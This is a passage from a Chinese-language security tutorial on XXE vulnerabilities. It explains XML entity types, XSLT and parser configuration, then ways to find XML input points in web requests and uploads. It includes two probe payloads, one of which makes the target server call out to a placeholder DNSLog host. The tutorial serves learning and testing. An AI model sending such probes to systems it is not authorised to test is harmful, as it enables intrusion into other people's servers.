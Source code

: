 4.  **通用实体 (General Entity):**
    *   **定义:** 使用 `<!ENTITY entityName ...>` (没有 `%`) 定义，可以是内部或外部实体。
    *   **引用:** **只能在 XML 文档的内容部分** (标签之间或属性值中，取决于配置) 使用 `&entityName;` 引用 (注意前缀 `&`)。
    *   **XXE 利用场景:** 在有回显的 XXE 中，通常定义一个外部通用实体指向目标资源，然后在 XML 内容中引用它，期望其内容被回显。

5.  **字符实体 (Character Entity):**
    *   **用途:** 用于表示 XML 中的预留字符或无法直接输入的字符。
    *   **示例:** `&lt;` (`<`), `&gt;` (`>`), `&amp;` (`&`), `&apos;` (`'`), `&quot;` (`"`), `&#169;` (©), `&#x20AC;` (€)。
    *   它们不是 XXE 漏洞直接利用的对象，但在构造 payload 时可能需要用来转义特殊字符。

#### XSLT (可扩展样式表语言转换 - Extensible Stylesheet Language Transformations)

*   **用途:** 一种用于将 XML 文档转换为其他格式（如 HTML、纯文本或其他 XML 结构）的语言。
*   **与 XXE 的关系:**
    *   XSLT 自身通常不直接导致 XXE，但处理 XSLT 的**解析器**如果配置不当，仍然可能受到 XXE 攻击（因为 XSLT 文件本身也是 XML）。
    *   在某些高级 XXE 攻击场景中，攻击者可能尝试注入或控制 XSLT 转换过程，以间接实现信息泄露或执行代码（但这超出了典型 XXE 的范畴，更接近 XSLT 注入）。
    *   XSLT 的 `document()` 函数可以加载外部 XML 文件，如果其参数可控且解析器允许，可能被滥用。

#### XML 解析器 (XML Parsers)

*   **作用:** 读取 XML 文档，检查其语法是否符合规则，并将其转换为应用程序可以理解和使用的数据结构（如 DOM 树、SAX 事件流）。
*   **常见类型:**
    *   **DOM (Document Object Model):** 将整个 XML 加载到内存中，构建一个树状结构，允许随机访问。资源消耗大，不适合大文件。
    *   **SAX (Simple API for XML):** 基于事件的流式解析器，顺序读取 XML，触发事件（如开始标签、结束标签、文本内容），内存效率高，适合大文件，但访问不灵活。
    *   **StAX (Streaming API for XML):** 另一种流式解析器，结合了 DOM 和 SAX 的一些优点，提供拉式（pull）解析模型。
    *   **XPath 解析器:** 用于在 XML 文档中导航和选择节点，常与 XSLT 结合。
*   **与 XXE 的关系:** **XML 解析器的配置**直接决定了应用程序是否容易受到 XXE 攻击。特别是解析器如何处理 DTD、外部实体和参数实体的设置至关重要。不同的解析器库（如 `libxml2` in PHP/Python, JAXP in Java, `System.Xml` in .NET）有不同的默认行为和安全配置选项。

### 寻找与利用 XXE 漏洞 (Finding and Exploiting XXE)

#### 如何寻找 XXE 漏洞 (Finding XXE Vulnerabilities)

1.  **识别 XML 输入点:**
    *   **检查 `Content-Type` Header:** 寻找值为 `application/xml`, `text/xml`, `application/soap+xml` 等的 HTTP 请求。请求体是主要的测试目标。
    *   **检查 `Accept` Header:** 如果服务器响应表明它能接受 XML (`Accept: application/xml`)，即使当前请求不是 XML，也可以尝试修改 `Content-Type` 并发送 XML payload。
    *   **修改 JSON 为 XML:** 对于接收 JSON (`application/json`) 的 API 端点，尝试将 `Content-Type` 改为 `application/xml`，将请求体转换为等效的 XML 结构，并注入 XXE payload。服务器可能配置为同时支持两种格式。
    *   **文件上传功能:** 检查处理基于 XML 的文件格式（如 `.xml`, `.svg`, `.docx`, `.xlsx`, `.pptx`, `.fodt`, `.pdf` (某些特性)）的上传点。这些文件内部可能包含可被利用的 XML 结构。

2.  **测试注入:**
    *   向识别出的 XML 输入点发送包含简单外部实体声明的测试 payload，观察服务器响应。
    *   **基础探测 Payload (有回显):**
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE test [ <!ENTITY xxe "TEST_XXE_VULNERABLE" > ]>
        <data>&xxe;</data>
        ```
        如果响应中出现 "TEST_XXE_VULNERABLE"，则确认存在 XXE。
    *   **基础探测 Payload (OOB - 使用 DNSLog):**
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://YOUR_UNIQUE_ID.dnslog.cn" > %xxe; ]>
        <data></data>
        ```
        如果 DNSLog 平台收到来自目标服务器的 DNS 查询记录，则确认存在 XXE (可能是盲注)。
